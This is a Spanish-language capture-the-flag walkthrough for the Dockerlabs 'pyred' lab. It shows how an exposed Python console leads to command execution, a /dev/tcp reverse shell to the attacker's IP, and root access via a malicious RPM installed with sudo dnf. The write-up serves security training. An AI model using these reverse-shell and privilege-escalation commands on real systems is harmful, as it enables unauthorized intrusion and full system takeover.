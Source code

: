 Desplegamos la máquina vulnerable poniendo en la terminal la línea de comandos **bash auto_deploy.sh pyred.tar** en la carpeta donde se encuentre el contenido extraído del zip.<br>
<ins>La dirección IP de la máquina a vulnerar siempre es la 172.17.0.2</ins>.

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/39f9d17d-537d-489e-b600-8412d3d2d98f)

Ahora, realizamos un escaneo de puertos de la máquina para revisar los puertos abiertos existentes y los posibles servicios a atacar mediante el uso de esos puertos.

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/3d97d0e9-cd78-4155-9c4e-e5ec9d73329e)

Podemos ver que se encuentra abierto únicamente el puerto ***5000***, correspondiente al servicio ***UPnP*** (Universal Plug and Play).

Vamos a intentar atacar a la máquina víctima mediante UPnP. Para ello, nos podemos dirigir al navegador y en el buscador ponemos http://172.17.0.2:5000.

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/ef642a79-9d33-4210-8df9-88110271133c)

Se nos muestra una consola de Python en la que podemos probar comandos y también aparece la salida (output) correspondiente a la ejecución de los comandos que escribamos.
Vamos a escribir por ejemplo, los siguientes comandos y ver que nos devuelve el output:

**import os
print(os.system("id"))**

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/ba46fab3-2643-43c5-9466-e9d487630723)

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/4d8f86f1-8679-4992-8f08-7dd832e1c48a)

La salida nos muestra que somos el usuario "primpi" cuyo ID es el 1000. Probamos a hacer un pwd para saber el directorio en el que nos encontramos o un ls para listar el contenido del directorio:

**import os
print(os.system("pwd"))**

**import os
print(os.system("ls -l"))**

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/bd1968be-deaa-49bb-b5b6-33d419632be2)

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/ea00f12c-bfaf-4f7d-b2f6-e99561c3308d)

Viendo que podemos ejecutar cualquier comando correspondiente al sistema gracias a la librería de Python OS, vamos a ejecutar una reverse shell en esta consola y ejecutarlo.
Para ello, utilizamos la página [https://www.revshells.com/](https://www.revshells.com/) que nos ayudará a generar la línea de código que tenemos que poner.

**import os
print(os.system("sh -i >& /dev/tcp/172.16.36.24/443 0>&1"))**

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/01cadc37-7a8b-441e-a382-7a14cff5d2a2)

Nos ponemos en escucha por el puerto 443 y ejecutamos el código que hemos insertado en la CLI virtual.

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/d7f469fa-098d-4205-a2ac-6570ad9356c5)

Si todo ha ido bien, nos aparecerá una sesión nueva iniciada tras ejecutar la reverse shell.

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/9d39e4e4-2757-42a6-ba53-72be8a730680)

Miramos en que directorio nos encontramos y con qué usuario hemos logrado acceder.

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/c210d46f-92d9-49db-b076-4aa4ab3e4d16)

Aparentemente, somos el usuario "primpi" y estamos en el directorio raíz (**/**) del sistema. Investigamos si podemos realizar una escalada de privilegios usando este usuario para acceder como "root".

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/f27c9e52-b91e-46da-996b-08541a9512bc)

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/204e75ee-8d02-44b5-b8db-1da29c63e557)

Buscamos en [https://gtfobins.github.io/](https://gtfobins.github.io/) la sección correspondiente a "***dnf***" e introducimos los comandos que nos pone en la terminal de nuestra máquina Kali atacante.

**TF=$(mktemp -d)<br>
echo 'chmod u+s /bin/bash' > $TF/x.sh<br>
fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF**

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/29c58322-2b89-45d4-8230-03fd01b7ba8d)

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/25c3d50e-6526-48a1-a257-3df5bf8962b4)

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/78fb179d-528c-4d4c-8809-35833efc9714)

Compartimos el archivo mediante HTTP.

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/2d2d4a22-fdd9-4357-9565-fdd68d0cfecf)

Hacemos un curl desde la máquina víctima para obtener el .rpm que hemos creado poniendo **curl** [***IP de la máquina atacante***]**/x-1.0-1.noarch.rpm -o** [***Nombre programa***].
En mi caso, yo pongo curl 172.17.0.1/x-1.0-1.noarch.rpm -o virus.rpm --> el nombre virus.rpm es para que sea fácil de reconocer a la hora de buscarlo o hacer un listado

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/eceb6f24-0376-41f3-a688-be0024e176ce)

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/e4f8785d-5659-4681-9782-f159541df568)

Escribimos el comando **sudo -u root /usr/bin/dnf install -y virus.rpm**. Esto lo que va a hacer es que como el usuario "primpi" tiene privilegios para acceder a /usr/bin/dnf sin necesidad de ingresar contraseña, iniciamos en la consola pero en lugar de acceder como el usuario primpi, accedemos con el usuario root, por lo que tendremos todos los permisos y privilegios posibles dentro de la máquina víctima.

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/8a6bd089-9759-46b6-8977-f2b6bd077618)

Comprobamos que somos realmente el usuario root:

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/43cdf7f6-cb14-4c26-856d-c45dcc707295)

<ins>**La escalada de privilegios ha funcionado correctamente. Somos el usuario "root"**</ins>.

Una vez finalizamos con la máquina de Dockerlabs presionamos **Ctrl+C** para eliminarla.

  ![image](https://github.com/PedroMontoya11/Laboratorios-CTF/assets/145665312/ca5259c6-5e03-4edd-9d4d-3eb935510bb7)
